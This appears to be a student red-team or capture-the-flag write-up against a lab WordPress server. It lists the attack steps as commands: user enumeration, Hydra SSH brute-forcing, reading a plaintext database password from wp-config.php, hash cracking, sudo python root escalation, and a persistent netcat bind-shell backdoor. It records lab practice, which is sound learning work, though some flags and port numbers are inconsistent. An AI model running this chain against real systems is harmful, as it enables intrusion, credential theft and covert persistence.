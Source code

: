 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
  - CWE-672: Operation on a Resource after Expiration or Release
  - CWE-521: Weak Password Requirements 
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
  - CWE-256: Unprotected Storage of Credentials
  - CWE-522: Insufficiently Protected Credentials
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - wpscan --url 192.168.1.110/wordpress/ --enumerate u
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - ssh michael@192.168.1.110
        - Password: michael
      - Search for Flag1
        - grep -rnw ./ -e 'flag1' 2>/dev/null
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - cd /var/www
      - grep -rnw ./ -e 'flag2' 2>/dev/null
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password my MySQL database
        - grep -rnw ./ -e 'password' 2>/dev/null
        - nano /var/www/html/wordpress/wp-config.php
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - mysql -u root -p'R@3nSecurity'
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - select post_content from wp_posts
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - john hash_pw.txt
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Escalate to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - Search for flag4
        - find . -name flag4.txt
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
        - Set up a listener on Target 1 by:
      - Gain root access to Target 1 and executing:
        - nc -lvnp 444 - /bin/bash
        - Save a .sh file of the command in .bashrc
      - Connect it to Kali by: 
        - nc 192.168.1.110 4444
      - ![Backdoor](/Images/Backdoor.png)



